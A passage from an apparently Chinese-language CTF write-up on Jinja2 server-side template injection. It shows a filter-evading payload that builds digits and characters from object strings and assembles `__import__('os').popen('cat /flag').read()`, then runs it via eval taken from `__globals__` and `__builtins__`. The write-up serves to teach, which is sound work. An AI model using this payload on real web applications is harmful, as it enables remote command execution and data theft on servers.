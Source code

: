 [![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-27cdd556-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-27cdd556-bd3e-1.png)

通过上述原理，我们可以依次获得构造payload所需的特殊字符与字符串：

\# 首先构造出所需的数字:
{% set zero = (({ }|select|string|list).pop(38)|int) %}    \# 0
{% set one = (zero**zero)|int %}    \# 1
{% set two = (zero-one-one)|abs %}    \# 2
{% set four = (two*two)|int %}    \# 4
{% set five = (two*two*two)-one-one-one %}    \# 5
{% set seven = (zero-one-one-five)|abs %}    \# 7

\# 构造出所需的各种字符与字符串:
{% set xhx = (({ }|select|string|list).pop(24)|string) %}    \# _
{% set space = (({ }|select|string|list).pop(10)|string) %}    \# 空格
{% set point = ((app.\_\_doc\_\_|string|list).pop(26)|string) %}    \# .
{% set yin = ((app.\_\_doc\_\_|string|list).pop(195)|string) %}    \# 单引号 '
{% set left = ((app.\_\_doc\_\_|string|list).pop(189)|string) %}    \# 左括号 (
{% set right = ((app.\_\_doc\_\_|string|list).pop(200)|string) %}    \# 右括号 )

{% set c = dict(c=aa)|reverse|first %}    \# 字符 c
{% set bfh = self|string|urlencode|first %}    \# 百分号 %
{% set bfhc=bfh~c %}    \# 这里构造了%c, 之后可以利用这个%c构造任意字符。~用于字符连接
{% set slas = bfhc%((four~seven)|int) %}    \# 使用%c构造斜杠 /
{% set but = dict(buil=aa,tins=dd)|join %}    \# builtins
{% set imp = dict(imp=aa,ort=dd)|join %}    \# import
{% set pon = dict(po=aa,pen=dd)|join %}    \# popen
{% set os = dict(o=aa,s=dd)|join %}    \# os
{% set ca = dict(ca=aa,t=dd)|join %}    \# cat
{% set flg = dict(fl=aa,ag=dd)|join %}    \# flag
{% set ev = dict(ev=aa,al=dd)|join %}    \# eval
{% set red = dict(re=aa,ad=dd)|join %}    \# read
{% set bul = xhx*2~but~xhx*2 %}    \# \_\_builtins\_\_

将上面构造的字符或字符串拼接起来构造出 `__import__('os').popen('cat /flag').read()`：

{% set pld = xhx*2~imp~xhx*2~left~yin~os~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174702-282904b2-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174702-282904b2-bd3e-1.png)

如上图所示，成功构造出了 `__import__('os').popen('cat /flag').read()` 。

然后将上面构造的各种变量添加到SSTI万能payload里面就行了：

{% for f,v in whoami.\_\_init\_\_.\_\_globals\_\_.items() %}    \# globals
    {% if f == bul %} 
        {% for a,b in v.items() %}    \# builtins
            {% if a == ev %}    \# eval
                {{b(pld)}}    \# eval("\_\_import\_\_('os').popen('cat /flag').read()")
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}

